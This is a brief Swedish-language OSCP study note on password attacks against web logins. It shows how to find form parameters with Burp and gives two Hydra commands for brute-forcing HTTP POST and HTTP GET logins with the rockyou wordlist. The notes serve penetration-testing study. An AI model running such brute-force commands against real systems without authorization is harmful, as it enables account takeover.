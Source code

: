 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/7-password-attacks/2-http-login-attack/"}
---
```



### HTTP-POST Attack:
1. Använd Burp för att ta reda på 1. Parameternamnen för inloggningen, och 2. Errortexten vid misslyckad inloggning
2. Exempel Hydra:
```bash
sudo hydra -l <username> -P /usr/share/wordlists/rockyou.txt <ip> http-post-form "/index.php:user=username&password=^PASS^:Login failed. Invalid"
```

### HTTP-GET Attack:
```bash
sudo hydra -l <username> -P /usr/share/wordlists/rockyou.txt -s 80 -f <ip> http-get
```
